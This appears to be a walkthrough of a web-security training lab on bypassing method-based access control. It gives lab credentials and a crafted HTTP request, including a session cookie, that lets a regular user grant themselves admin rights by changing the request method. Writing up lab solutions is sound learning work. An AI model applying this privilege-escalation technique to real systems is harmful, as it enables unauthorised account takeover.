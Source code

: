 # IDOR NOTES
## METHOD BASED ACCESS CONTROL CAN BE CIRCUMENTED
    ### recon
    - admin credentials: administrator:admin

    -my-credentials: wiener:peter

    #### behaviour when logged in as an admin
    -upgrade user
    --POST /admin-roles
    in request body: username=carlos&action=upgrade

    -downgrade the user
    --POST /admin-roles
    in request body: username=carlos&action=downgrade



    #### behaviour when logged in as a regular user
    just nothing --- just changing the email and nothing else important
    change the request to same as admin: You get unauthorized... mmh nice..

    ### solving the lab
    - as the admin you can make post requests to the server
    -as the regular user you cannot
    - change the method to GET and path as /admin-roles
    - realise the server responds with *missing parameter 'username*
    - observe the request sent by admin and craft similar one to that as shown:
        POST /admin-roles?username=wiener&action=upgrade HTTP/2
        Host: 0aa70076033dc29c803267a700750036.web-security-academy.net
        Cookie: session=Gm3NLGDGiQkGtPmy1fpZ7oRhSHWdkH1T
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate, br
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 0
        Origin: https://0aa70076033dc29c803267a700750036.web-security-academy.net
        Referer: https://0aa70076033dc29c803267a700750036.web-security-academy.net/my-account?id=admin
        Upgrade-Insecure-Requests: 1
        Sec-Fetch-Dest: document
        Sec-Fetch-Mode: navigate
        Sec-Fetch-Site: same-origin
        Sec-Fetch-User: ?1
        Priority: u=0, i
        Te: trailers

    - With this request you upgrade yourself :)
    - Navigate to UI/UX and perform admin duties :)

YOU NOTICE THE LAB CHANGED TO SOLVED......always try changing the method and observing the behaviour...
NB: ONLY LOOK FOR SOLUTION AFTER YOU HAVE TRIED YOUR BEST WITH NO LUCK FOR SOME DAYS.
HAPPY HACKING :)


